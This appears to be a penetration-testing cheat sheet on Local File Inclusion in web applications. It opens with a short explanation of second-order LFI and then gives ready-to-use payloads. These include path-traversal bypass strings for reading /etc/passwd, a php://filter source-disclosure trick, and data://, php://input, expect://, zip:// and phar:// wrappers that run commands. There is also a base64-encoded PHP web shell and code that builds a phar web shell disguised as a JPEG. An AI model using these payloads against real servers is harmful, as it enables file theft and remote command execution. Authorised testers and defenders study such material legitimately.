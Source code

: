 **Second-Order Attacks**

For example, a web application may allow us to download our avatar through a URL like (/profile/$username/avatar.png). If we craft a malicious LFI username (e.g. ../../../etc/passwd), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.
In this case, we would be poisoning a database entry with a malicious LFI payload in our username. Then, another web application functionality would utilize this poisoned entry to perform our attack (i.e. download our avatar based on username value). This is why this attack is called a Second-Order attack.

### Bypass 

````
....//....//....//....//etc/passwd
....////....////....////etc/passwd

%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
%2e%2e%2f -> ../

./languages/../../../../etc/passwd
non_existing_directory/../../../etc/passwd/./././././
/etc/passwd%00
````

### PHP Filter & Wrappers

**Filter**
````
php://filter/read=convert.base64-encode/resource=config
````
**Wrapper**
````
Data
data://text/plain;base64,
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

Input
php://input&cmd=id

Expect
expect://id

Zip
- Upload webshell in zip file.zip
zip://./profile_images/shell.jpg%23shell.php&cmd=id

Phar
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
````
